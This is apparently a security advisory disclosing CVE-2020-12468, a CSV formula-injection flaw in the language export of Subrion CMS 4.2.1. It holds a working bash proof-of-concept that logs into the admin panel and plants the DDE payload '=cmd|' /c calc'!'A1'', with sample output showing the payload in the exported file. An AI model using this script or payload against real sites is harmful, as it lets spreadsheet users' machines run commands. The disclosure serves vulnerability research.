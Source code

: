 # Export Language - CSV Injection (aka Excel Macro Injection or Formula Injection)

## VulDB-Like Summary

A vulnerability has been found in the Subrion CMS 4.2.1. It has been rated as problematic. Affected by this issue is an unknown code. The manipulation of the of a phrase value within a language leads to a CSV Injection vulnerability. Using CWE to declare the problem leads to CWE-1236. Impacted is confidentiality. An attacker might be able inject script and macros inside CSVs, and using them to mount further attacks against other users.

The weakness was presented 04/12/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-12468. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known but no exploit is publicly available.

## Proof-of-Concept

The following script may be used to easily verify the vulnerability:

```bash
#!/bin/bash

username="admin"
password="Passw0rd!"
target="http://subrion.local/panel/"
proxy="http://127.0.0.1:8080"

# Grep Session Cookie Name
sess_cookie_name=$(curl -ks -x $proxy $target -I | grep "Set-Cookie" | head -n 1 | grep -oP "INTELLI_\w*")
cookies="Cookie: loader=loaded; $sess_cookie_name=00000000000000000000000000"
# Grep CSRF Token
csrf_token=$(curl -ks -x http://127.0.0.1:8080 $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
echo "[*] Logging in"
# Fix the Session Cookie Value and login
res=$(curl -ks -x $proxy $target -X POST --data "__st=$csrf_token&username=$username&password=$password" -H "$cookies" -i | grep "Set-Cookie")

echo "[*] Adding evil phrase"
# Get CSRF Token to ADD a phrase
csrf_token=$(curl -i -s -k -H "$cookies" -x $proxy "$target/phrases/add/" | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
# Add the crafted parameter
res=$(curl -ksi -x "$proxy" -X "POST" -H "$cookies" --data-binary "__st=$csrf_token&key=_csv_injection_&category=common&module=&value%5Ben%5D=%2C%3Dcmd%7C%27+%2Fc+calc%27%21%27A1%27%2C&save=1&goto=list"  "$target/phrases/add/")
if [[ $(echo $res | grep "HTTP/1.1" | grep 302) == "" ]]; then
    echo "Could not add the evil phrase"
    exit 1
fi
echo "[*] Downloading Language"
# Get CSRF Token to Download
csrf_token=$(curl -i -s -k -H "$cookies" -x $proxy "$target/languages/download/" | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
# Downloading the file, showing the issue
curl -ks -x $proxy -X "POST" -H "$cookies" --data-binary "__st=$csrf_token&lang=en&file_format=csv&filename=subrion_4.2.1_en" "$target/languages/download/" | grep "_csv_injection_"
```

Using the above script should give the following output, proving the vulnerability.

```
$ ./csv_injection.sh
[*] Logging in
[*] Adding evil phrase
[*] Downloading Language
_csv_injection_|",=cmd|' /c calc'!'A1',"|",=cmd|' /c calc'!'A1',"|common|en||0
```

As it may be noticed, the value `=cmd|' /c calc'!'A1'` is treated as a standalone cell, wrapped between two commas. If opened in Microsoft Excel, a calculator would spawn.

## Remediation

Currently, no fixes are available for this issue.

## References

*   [https://cwe.mitre.org/data/definitions/1236.html](https://cwe.mitre.org/data/definitions/1236.html)
*   [https://owasp.org/www-community/attacks/CSV_Injection](https://owasp.org/www-community/attacks/CSV_Injection)
*   [https://vel.joomla.org/articles/2140-introducing-csv-injection](https://vel.joomla.org/articles/2140-introducing-csv-injection)



 
